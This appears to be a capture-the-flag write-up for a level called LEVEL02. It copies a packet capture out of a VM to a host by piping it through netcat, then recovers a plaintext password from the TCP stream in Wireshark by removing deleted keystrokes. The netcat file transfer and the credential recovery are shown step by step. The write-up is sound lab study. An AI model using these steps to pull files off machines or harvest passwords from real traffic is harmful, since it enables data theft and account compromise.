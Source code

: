 LEVEL02
=======

1. **See what' s in the directory**

      cmd: ```ls```
      output: ```level02.pcap```

2. **Share the file with the host so that we can analyze it by using Wireshark**

      - in host: ```ifconfig``` ---> to find the host ip
      - ```nc -l 1234 > level02.pcap```  ---> listen on the port 1234 for the file
      - in vm: cmd: ```cat /home/user/level02/level02.pcap | nc 10.24.3.2 1234``` ---> host ip is 10.24.3.2

3. **Analyse in Wireshark**

      Use the option "follow TCP Stream" in order to see all the joined data that are send in the TCP protocol

      output: ```Password: ft_wandr...NDRel.L0L```

      We see . is 7x in hex:
      "000000B9  66                                                f<br>
      000000BA  74                                                 t<br>
      000000BB  5f                                                 _<br>
      000000BC  77                                                 w<br>
      000000BD  61                                                 a<br>
      000000BE  6e                                                 n<br>
      000000BF  64                                                 d<br>
      000000C0  72                                                 r<br>
      000000C1  7f                                                 .<br>
      000000C2  7f                                                 .<br>
      000000C3  7f                                                 .<br>
      000000C4  4e                                                 N<br>
      000000C5  44                                                 D<br>
      000000C6  52                                                 R<br>
      000000C7  65                                                 e<br>
      000000C8  6c                                                 l<br>
      000000C9  7f                                                 .<br>
      000000CA  4c                                                 L<br>
      000000CB  30                                                 0<br>
      000000CC  4c                                                 L<br>
      000000CD  0d                                                 ."<br>

      Check hex '7f' in table ASCII is del. Since we receive all the user input we can see that some character were deleted so we remoce them in order to have the real password

      result:
      **ft_waNDReL0L**


